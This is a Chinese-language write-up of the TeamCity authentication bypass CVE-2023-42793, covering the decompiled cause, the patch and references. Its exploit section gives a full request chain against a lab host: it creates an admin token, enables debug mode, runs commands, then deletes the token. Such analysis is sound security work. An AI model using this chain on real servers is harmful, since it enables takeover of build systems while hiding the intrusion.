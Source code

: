 # CVE-2023-42793

涉及**2023.05.3**及其之前的版本。

## 分析

代码在`/opt/teamcity/webapps/ROOT/WEB-INF/lib/web.jar`，cp出来反编译，因为teamcity是jetbrains自家的产品，拿IDEA会出现一部分代码反编译不出来，暂时不解决这个问题。



代码中逻辑错误导致的授权绕过：

```java
private boolean requestPreHandlingAllowed(@NotNull HttpServletRequest req) {
    // ...
    if (!this.myPreHandlingDisabled.matches(WebUtil.getPathWithoutContext(req))) {
        return true;
    }
    // path matches myPreHandlingDisabled? no pre-handling!
    return false;
}
```



```java
public RequestInterceptors(@NotNull List<HandlerInterceptor> var1) {
    // ...
    this.myPreHandlingDisabled.addPath("/**" + XmlRpcController.getPathSuffix());
    this.myPreHandlingDisabled.addPath("/app/agents/**");
}


```



```java
public class XmlRpcController extends AbstractController {
    public static String getPathSuffix() {
        return "/RPC2";
    }
    // ...
}
```



因此满足`/**/RPC2`的路由不会被授权。



## EXP

创建名字为RPC2的token

```http
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close


```



带着token开启调试模式：

```http
POST /admin/dataDir.html?action=edit&fileName=config/internal.properties&content=rest.debug.processes.enable=true HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.RlpHRjdlenRRZ3FPN1gxMFY3SG5hNEQ0YmVv.OTZmMzg2MmItZTYyNy00NzRhLTg1NGItYmM2NDY2MGY5MWQ0
Connection: close


```



RCE：

```http
POST /app/rest/debug/processes?exePath=id HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.RlpHRjdlenRRZ3FPN1gxMFY3SG5hNEQ0YmVv.OTZmMzg2MmItZTYyNy00NzRhLTg1NGItYmM2NDY2MGY5MWQ0
Connection: close


```



删除token：

```http
DELETE /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: 172.20.10.3:8111
Content-Length: 0
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close


```

## 修复

```java
public RequestInterceptors(@NotNull List<HandlerInterceptor> var1) {
    // ...
-   this.myPreHandlingDisabled.addPath("/**" + XmlRpcController.getPathSuffix());
+   this.myPreHandlingDisabled.addPath(XmlRpcController.getPathSuffix());
}

```



## References

[Source Code at Risk: Critical Code Vulnerability in CI/CD Platform TeamCity | Sonar](https://www.sonarsource.com/blog/teamcity-vulnerability/)

[vulhub/teamcity/CVE-2023-42793/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/teamcity/CVE-2023-42793/README.zh-cn.md)
